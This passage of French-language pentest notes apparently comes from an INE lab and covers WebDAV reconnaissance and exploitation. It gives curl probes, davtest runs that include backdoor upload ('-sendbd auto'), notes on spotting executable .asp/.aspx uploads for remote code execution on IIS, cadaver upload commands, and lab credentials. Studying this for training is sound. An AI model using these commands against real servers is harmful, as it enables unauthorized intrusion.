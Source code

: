 ### Identification WebDAV
```bash
# Headers révélateurs WebDAV
curl -I http://demo.ine.local/webdav
# Rechercher: Server, DAV, MS-Author-Via

# Test d'accès WebDAV
curl http://demo.ine.local/webdav
curl http://demo.ine.local/webdav/

# Réponses typiques :
# 401 Unauthorized = Auth requise
# 403 Forbidden = Pas d'accès
# 200 OK = Accès libre
```

---

## 🛠️ 3. Outils de test WebDAV

### davtest (Test automatisé)
```bash
# Test sans authentification
davtest -url http://demo.ine.local/webdav

# Test avec authentification
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav

# Options avancées
davtest -auth user:pass -url http://target/webdav -directory testdir
davtest -auth user:pass -url http://target/webdav -sendbd auto
```

### Interprétation résultats davtest
```bash
# Sortie typique :
# SUCCEED: .txt (upload + execute)
# SUCCEED: .html (upload + execute)  
# SUCCEED: .asp (upload + execute)   # ← CRITIQUE pour IIS
# SUCCEED: .aspx (upload + execute)  # ← CRITIQUE pour IIS
# FAIL: .php (upload only)
# FAIL: .jsp (forbidden)

# Extensions critiques IIS :
# .asp, .aspx = Exécution côté serveur
# .html, .txt = Upload possible mais pas RCE direct
```

### cadaver (Client WebDAV interactif)
```bash
# Connexion WebDAV
cadaver http://demo.ine.local/webdav

# Authentification quand demandée
Username: bob
Password: password_123321

# Commandes dans cadaver
ls                                    # Lister fichiers
pwd                                   # Répertoire actuel
cd directory                         # Changer répertoire
get filename                         # Télécharger fichier
put /local/file                      # Uploader fichier
```
